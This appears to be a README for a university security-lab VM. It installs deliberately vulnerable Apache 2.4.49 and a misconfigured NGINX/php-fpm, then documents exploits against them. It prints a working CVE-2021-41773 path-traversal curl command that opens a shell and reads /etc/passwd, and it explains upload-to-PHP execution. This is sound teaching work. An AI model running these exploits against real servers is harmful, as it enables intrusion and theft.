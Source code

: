 # Files in this repo

## setup.sh

This file is intended to be executed as root on the guest VM. Do not run it on your host OS; it will do bad things. You can (and perhaps should) run this file line by line since it does no error checking.

This script will:
* Install sudo, build-essential, and the build dependencies for apache2
* Install NGINX, MariaDB, and php-fpm
* Add a default 404 page, abronsius.cpsc4270.local, and alfred.cpsc4270.local to NGINX
* Create the user `abronsius` (if not existing) and add it to the sudoers list
* Download, build, and install apache2 2.4.49 at `/home/abronsius/apache2`
* Configure apache2 to serve files and enable cgi-bin
* Download, configure, and install XenForo at alfred.cpsc4270.local
* ... more coming later

TODO:
* Download, install, configure phpMyAdmin (or other software) for SQL injection
 * Find a way to tie-in SQL injection to springboard another attack
* Crete an actual page for abronsius.cpsc4270.local.
 * Currently cgi-bin hosts a cal.sh script

CONSIDER:
* Implement https://github.com/Balasys/dheater for DoS

# VM OS

The OS is Debian 11.1 Bullseye but any Debian-based OS should also work. I don't recommend deviating from this choice in case there are compatibility issues, and any non-Debian OS will require installing and configuring everything manually. Download via [Torrent](https://cdimage.debian.org/debian-cd/current/amd64/bt-cd/debian-11.1.0-amd64-netinst.iso.torrent) or directly via [ISO](https://cdimage.debian.org/debian-cd/current/amd64/iso-cd/debian-11.1.0-amd64-netinst.iso). The sha256sum of the ISO is `8488abc1361590ee7a3c9b00ec059b29dfb1da40f8ba4adf293c7a30fa943eb2` to double check that you've obtained the correct file.

# VM Configuration

The VM can be installed using any software (qemu/kvm, VirtualBox, VMWare, etc.)
The only requirement is network access with its own IP address. This can (and should) be a totally local network. The VM will contain several serious security flaws and therefore should not be available over the Internet.

# Exploits

## Exploit Target 1: Apache

### Exploit 1: CVE-2021-41773

This vulnerability is trivial to exploit and results in directory traversal, local file inclusion, and remote code execution. This exploit takes advantage of a new form of URL normalisation added in this version of apache2 which did not appropriately check against URL-encoded paths, which in this instance allows moving up from the cgi-bin directory and executing arbitrary code on the remote server. This line brings the directory up to `/` and then executes `/bin/sh` and passes `echo;ls -alh /etc/passwd;whoami;uname -a` to the opened shell.

Remote code execution:
```sh
curl --path-as-is "http://127.0.0.1:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo;ls -alh /etc/passwd;whoami;uname -a"
```

Example output:
```
-rw-r--r-- 1 root root 1.6K Oct 23 23:38 /etc/passwd
abronsius
Linux dbsec-vm-main 5.10.0-9-amd64 #1 SMP Debian 5.10.70-1 (2021-09-30) x86_64 GNU/Linux
```
## Exploit Target 2: NGINX+php-fpm+UGC

### Exploit 2: Misconfigured NGINX fastcgi_pass for PHP

This exploit results in RCE on the php-fpm process (running as www-data as currently configured) which can then be leveraged to connect directly to the locally running apache server running as the abronsius user and execute another RCE to obtain access to that user's files.

The exploit allows executing arbitrary files as PHP because NGINX has been poorly configured to pass any URL ending in .php to php-fpm, and php-fpm has been configured to allow the execution of files not ending in .php via `security.limit_extensions`. This exploit would also work on earlier versions of PHP before this option was added.

If a user uploads a file which gets saved at a publicly accessible location, it could be executed by browsing to a URL such as `http://alfred.cpsc4270.local/internal_data/attachments/0/2-2dab5576695298f017741b114f67c3f1.data/oops.php`. This works because NGINX was not configured to verify that such a file exists, and PHP will happily read from left to right until it finds a file that exists and execute it, so the trailing /oops.php isn't considered for this purpose.
